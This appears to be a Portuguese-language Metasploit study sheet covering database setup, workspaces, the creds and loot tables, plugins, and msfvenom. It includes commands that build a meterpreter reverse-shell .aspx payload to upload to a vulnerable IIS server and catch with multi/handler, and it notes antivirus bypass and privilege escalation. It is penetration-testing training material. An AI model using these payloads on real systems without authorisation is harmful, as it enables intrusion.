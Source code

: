 ## Base de dados

msfconsole possui uma base de dados nativa integrada 

### inicializando à base de dados:

	sudo systemctl status postgresql
	sudo systemctl start postgresql
	
	sudo msfdb init
	sudo msfdb status

### conectando à base de dados:

	msf6 > sudo msfdb run

### utilizando workspaces:

workspaces são similares a pastas num sistema operacional, é possível armazenar resultados de scans, hosts e informações extraídas por ip/subnet/network/domínio

	msf6 > workspace
	msf6 > workspace -a[dd] [workspace-name]
	msf6 > workspace -d[elete] [workspace-name]

### importando arquivos para dentro de um workspace:

o output de um scan de host do **nmap** pode ser importado (preferencialmente em .xml) para dentro de um workspace

	msf6 > db import Target.xml

### utilizando um scan nmap diretamente do msfconsole:

	msf6 > db_nmap -sV -sS [target-i]

### exportando arquivos da base de dados:

	msf6 > db_export -h
	msf6 > db_export -f xml [backup-name]

### tabelas da base de dados:

#### hosts:

a tabela hosts é automaticamente populada com endereços, hostnames e outras informações advindas de scans (hosts customizados também podem ser adicionados manualmente)

	msf6 > hosts -h

#### services:

tabela que contém descrições e informações sobre serviços descobertos durante scans

	msf6 > services -h 

#### creds:

esse comando permite visualizar credenciais coletadas durante as interações com o alvo, também é possível adicionar credenciais manualmente, associar credenciais com portas, adicionar descrições etc.

	msf6 > creds -h

### loot:

funciona em conjunto com o comando creds e permite observer uma lista de user e serviços ownados

	msf6 > loot -h

## Plugins e Módulos

plugins são extensões criadas pela comunidade e aprovada pelos criadores para integração no framework, eles adicionam diversas funcionalidades ao metasploit

a vantagem de utilizar plugins é que os resultados são automaticamente registrados na base de dados, além de permitir a automação de tarefas repetitivas

para instalar um plugin é necessário colocar o arquivo **.rb** na pasta /usr/share/metasploit-framework/plugins

para carregar um plugin:

	msf6 > load [plugin-name] 


é possível adicionar módulos ao metasploit, no site exploitdb é possível pesquisar pela tag MSF para visualizar apenas exploit que possuem o formato necessário para serem importados no framework

após o download é necessário colocar o módulo na pasta (/usr/share/metasploit-framweork/modules/[pasta-apropriada]) e depois recarregar os módulos

	msf6 > reload_all

## MSFVenom

o comando msfvenom pode ser usado para gerar payloads, possui muitas opções de customização de parâmetros, encoding e formatos que podem ser usados para das bypass em proteções como antivírus 


exemplo de reverse shell usando um payload .aspx numa aplicação IIS + FTP vulnerável a upload de arquivos

	msfvenom -p[ayload] /windows/meterpreter/reverse_tcp LHOST=[ip-local] LPORT=[porta-local] -f[ormat] aspx > [nome-do-arquivo].aspx

	msfconsole -q
	msf6 > use multi/handler
	msf6 > set LHOST [ip-local]
	msf6 > set LPORT [porta-local]

acessando o alvo e requisitando o recurso em http://[ip-alvo]/[nome-do-arquivo].aspx então criaria uma conexão do alvo para a máquina atacante

	meterpreter > getuid
>Server username: IIS APPPOOL\\Web

### Local Exploit Suggester

esse exploit pode ser usado para a escalação de privilégios, visto que, por exemplo, o usuário **IIS APPPOOL\\Web** geralmente não possui muitas permissões no sistema

após ser executado ele retornará uma lista de possíveis exploits a serem usados para conseguir acesso administrativo 



## Evasão de IDS/IPS e Firewall

